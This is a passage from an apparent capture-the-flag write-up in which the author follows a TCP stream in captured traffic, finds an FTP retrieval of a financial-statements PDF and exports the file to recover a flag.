

Following a the TCP stream of one of the traffic, I can see that the person executed `RETR` to retrieve a copy of a file called Financial_statements - Transactions.pdf.



Let's try to export the pdf file to view its contents. First, I need to find the packet that contains the pdf contents.



Now, I need to follow the TCP stream and save it to a file.




Hooray, found another flag!

# References
1. [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://ctf.hackthebox.com/ctfs](https://ctf.hackthebox.com/ctfs)
